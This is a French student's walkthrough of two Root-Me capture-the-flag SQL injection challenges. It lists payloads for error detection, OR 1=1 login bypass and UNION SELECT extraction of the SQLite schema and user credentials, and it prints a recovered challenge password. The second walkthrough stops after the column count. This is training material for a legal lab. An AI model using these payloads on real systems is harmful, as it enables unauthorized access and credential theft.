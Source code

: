 **RootMe**
# SQL injection - String

URL : http://challenge01.root-me.org/web-serveur/ch19

Etudiant | Date | Sujet
:---|:---|:---
Hamza Terir | 23/11/2022 | SQLi


### Erreur SQL
```
admin'
```

![Pasted image 20221123135349](https://user-images.githubusercontent.com/122984033/213180205-c2af302a-74df-4617-a038-892e857cdc4a.png)

### Point d'injection

Le point d'injection est dans la barre de recherche qui est accessible à cette url :

http://challenge01.root-me.org/web-serveur/ch19/


![Pasted image 20230118141543](https://user-images.githubusercontent.com/122984033/213181856-63ba1da1-f3f7-4250-8f57-11e4e1fb3a1f.png)

## Exploitation

### Requête True
```sql
' OR 1=1
```

### Nombre de colonnes (2)
```sql
' UNION SELECT null,null -- 
```

#### Informations

### Version
```sql
' UNION SELECT null,sqlite_version() -- 
```

**Database version** : SQLite3 (3.31.1)

![Pasted image 20221123142951](https://user-images.githubusercontent.com/122984033/213182251-f8688658-98f8-41ff-adef-d2c3e06f2f4e.png)

### Tables
```sql
' UNION SELECT null,name FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123142924](https://user-images.githubusercontent.com/122984033/213182410-affcd2ee-e013-4412-ae5f-8f2898b5c88e.png)

### Schema Tables
```sql
' UNION SELECT null,sql FROM sqlite_master WHERE type='table' -- 
```
![Pasted image 20221123143111](https://user-images.githubusercontent.com/122984033/213182667-6599c824-048b-408f-a0e1-fa306d465e06.png)

### Identifiants
```sql
' UNION SELECT null,null OR 1=1

' UNION SELECT username,password FROM users -- 
```

## Flag

![Pasted image 20221123145118](https://user-images.githubusercontent.com/122984033/213182786-d5d61278-33ad-4465-b3f2-1719f0c7c521.png)


# SQL injection - Authentication

URL : http://challenge01.root-me.org/web-serveur/ch19

## Reconnaissance
### Detection

```sql
admin
admin'
```

![Pasted image 20230118143012](https://user-images.githubusercontent.com/122984033/213186831-23504ec9-2705-4345-9044-0ae77b53aace.png)

Requête POST /web-serveur/ch9/
```javascript
login=admin&password=admin%27
```

![Pasted image 20230118143340](https://user-images.githubusercontent.com/122984033/213187295-70abea90-85fe-48b5-baa8-ef888b7085e2.png)

On obtient l'erreur SQL de lase base de données SQlite3 :

![Pasted image 20230118143526](https://user-images.githubusercontent.com/122984033/213187431-b7e42334-f087-405a-a1f4-d2f3df818305.png)

## Exploitation
### Requête true

Requête POST avec la charge utile dans le point d'injection qui correspond à la partie password dans le formulaire :
```sql
login=admin&password=admin' OR '1'='1
```

![Pasted image 20230118143728](https://user-images.githubusercontent.com/122984033/213187676-ad879ddd-e43f-44c8-90e8-9ea310198293.png)

On obtient un accès au compte user1 :

![Pasted image 20230118143835](https://user-images.githubusercontent.com/122984033/213187815-f1fdc674-08df-4376-a86e-a1cd3565457c.png)

Si on va se connecter à l'aide de :
```sql
admin
admin' OR '1'='1
```

On retrouve un mot de passe sous forme de html en clair :

![Pasted image 20230118145103](https://user-images.githubusercontent.com/122984033/213196271-9a34707d-034c-4099-8e03-15b39aec072d.png)


En changant le type de balise input par "text" nous pouvons retrouver le valeur du mot de passe en clair sur la partie html :

![Pasted image 20230118145305](https://user-images.githubusercontent.com/122984033/213196437-ccf79250-17d1-4560-92b6-ad848f0ceb93.png)

**Credentials**
```
user1:TYsgv75zgtq
```
On essaie de se connecter avec ces identifiants, rien ne se passe.

On continue d'essayer d'exploiter la faille SQL dans le formulaire avec ce compte cette fois-ci en injectant :
```sql
user1
TYsgv75zgtq' OR '1'='1
```

On détermine le nombre de colonnes en injectant le payload avec une requête POST :
```sql
login=user1&password=TYsgv75zgtq' UNION SELECT null  --
```

Erreur, il n'y a pas qu'une colonne.

![Pasted image 20230118151849](https://user-images.githubusercontent.com/122984033/213196745-3c7158c3-3b9d-4c47-9821-e9140e3c7a76.png)

On ajoute un autre null pour déterminer si il y a 2 colonnes :
```sql
login=user1&password=TYsgv75zgtq' UNION SELECT null,null --
```

Nous avons bien deux colonnes :

![Pasted image 20230118152054](https://user-images.githubusercontent.com/122984033/213196853-b5b1540f-8657-444a-bace-8d4e45875e15.png)












